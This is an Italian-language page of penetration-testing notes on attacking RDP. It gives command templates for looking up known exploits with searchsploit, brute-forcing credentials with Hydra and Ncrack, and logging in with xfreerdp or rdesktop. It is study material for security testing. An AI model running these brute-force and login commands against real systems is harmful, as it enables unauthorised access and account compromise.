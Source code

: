 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <rdp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce 
⚠️ Attenzione: il brute-force su RDP può attivare sistemi di difesa (lockout, log, allarmi).

### Hydra
```bash
hydra -t 4 -V -f -L <userList> -P <passwordList> rdp://<IP> -s <PORT>
```
- `-L` → file con la lista utenti  
- `-P` → file con la lista password  
- `-s` → porta RDP (se diversa da 3389)  
- `-t` → numero massimo di thread (es. `-t 4` per rallentare l'attacco)

### Ncrack
```bash
ncrack -p 3389 -u <user> -P <wordlist> <IP>
```
Una volta ottenute credenziali valide possiamo usare un client open source per il protocollo RDP per connetterci alla GUI usando le credenziali. 
xfreerdp:
```bash
xfreerdp /u:<username> /p:<password> /v:<IP>:<PORT>
```
> Durante la connessione potrebbe comparire un avviso sul certificato non verificato: accettare con `YES`.

rdesktop:
```bash
rdesktop -u <username> -p <password> <IP>
```

---
